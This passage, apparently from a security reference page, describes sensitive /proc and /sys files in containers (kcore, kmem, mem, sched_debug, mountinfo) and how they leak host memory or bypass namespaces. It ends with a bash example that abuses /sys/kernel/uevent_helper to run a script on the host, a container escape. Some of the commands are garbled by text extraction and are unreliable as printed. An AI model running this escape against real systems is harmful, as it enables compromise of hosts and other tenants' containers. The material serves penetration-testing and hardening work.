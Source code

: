 #### **`/proc/kcore`**

- Represents the system's physical memory in ELF core format.
- Reading can leak host system and other containers' memory contents.
- Large file size can lead to reading issues or software crashes.
- Detailed usage in [[https://schlafwandler.github.io/posts/dumping-/proc/kcore/|Dumping /proc/kcore in 2019]].

#### **`/proc/kmem`**

- Alternate interface for `/dev/kmem`, representing kernel virtual memory.
- Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

- Alternate interface for `/dev/mem`, representing physical memory.
- Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

- Returns process scheduling information, bypassing PID namespace protections.
- Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

- Provides information about mount points in the process's mount namespace.
- Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- Used for handling kernel device `uevents`.
- Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
- **Example for Exploitation**: 
```bash

  #### Creates a payload

  echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

  #### Finds host path from OverlayFS mount for container

  host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

  #### Sets uevent_helper to malicious helper

  echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

  #### Triggers a uevent

  echo change > /sys/class/mem/null/uevent

  #### Reads the output

  cat /output
  ```
